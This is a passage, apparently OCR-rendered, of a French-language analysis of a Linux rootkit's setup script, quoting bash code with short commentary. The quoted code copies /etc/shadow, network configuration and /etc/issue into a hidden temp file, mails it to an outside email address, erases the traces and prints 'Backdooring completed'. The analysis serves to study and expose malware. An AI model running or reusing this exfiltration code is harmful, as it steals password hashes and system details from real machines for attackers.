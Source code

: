 ```bash
MYIPADDR=`/sbin/ifconfig eth0 | grep "inet addr:" | awk -F ' ' ' {print $2} ' | cut -c6-`
echo "${DCYN}[${WHI}sh${DCYN}]# Hostname :${WHI} `hostname -f` ($MYIPADDR)${RES}"
[coupé]

if [ -f /etc/redhat-release ]; then
  echo -n "${DCYN}[${WHI}sh${DCYN}]# Distribution:${WHI} `head -1 /etc/redhat-release`${RES}"
elif [ -f /etc/slackware-version ]; then
  echo -n "${DCYN}[${WHI}sh${DCYN}]# Distribution:${WHI} `head -1 /etc/slackware-version`${RES}"
elif [ -f /etc/debian_version ]; then
  echo -n "${DCYN}[${WHI}sh${DCYN}]# Distribution:${WHI} `head -1 /etc/debian_version`${RES}"
elif [ -f /etc/SuSE-release ]; then
  echo -n "${DCYN}[${WHI}sh${DCYN}]# Distribution:${WHI} `head -1 /etc/SuSE-release`${RES}"
elif [ -f /etc/issue ]; then
  echo -n "${DCYN}[${WHI}sh${DCYN}]# Distribution:${WHI} `head -1 /etc/issue`${RES}"
else echo -n "${DCYN}[${WHI}sh${DCYN}]# Distribution:${WHI} unknown${RES}"
fi
```

Le setup affiche des informations concernant le système (il devrait peut-être commencer par ça).

```bash
rm -rf /tmp/info_tmp
cat /etc/shadow >> /tmp/.cln
/sbin/ifconfig >> /tmp/.cln
cat /etc/issue >> /tmp/.cln
cat /tmp/.cln | mail $md5sum -s "$1:$2:`hostname -f`:$MYIPADDR"
cat /tmp/.cln | mail -s "rk" norocos@canadianbiotech.com
rm -rf /tmp/.cln
```

Je ne suis pas sûr que le pirate ayant utilisé le rootkit ait fait attention à ça. Peut-être il est partageur ou alors c'est son adresse email (hébergée chez `emaileveryone`).

```bash
endtime=`date +%S`
total=`expr $endtime - $startime`

echo ""
echo "${WHI}--------------------------------------------------------------------${RES}"
echo "${DCYN}[${WHI}sh${DCYN}]# ipchains ... ? ${RES}"

if [ -f /sbin/ipchains ]; then
  echo "${WHI}`/sbin/ipchains -L input | head -5`${RES}"
else
  echo ""
  echo "${DCYN}[${WHI}sh${DCYN}]# lucky for u no ipchains found${RES}"
fi

echo "${WHI}--------------------------------------------------------------------${RES}"

echo "${DCYN}[${WHI}sh${DCYN}]# iptables ...?${RES}"

if [ -f /sbin/iptables ]; then
  echo "${WHI}`/sbin/iptables -L input | head -5`${RES}"
else
  echo ""
  echo "${DCYN}[${WHI}sh${DCYN}]# lucky for u no iptables found${RES}"
fi
echo "${WHI}--------------------------------------------------------------------${RES}"

echo "${DCYN}[${WHI}sh${DCYN}]# Just ignore all errors if any ! "
echo "${DCYN}[${WHI}sh${DCYN}]# ============================== ${RED}Backdooring completed in :$total seconds ${RES}"

if [ -f /usr/sbin/syslogd ]; then
```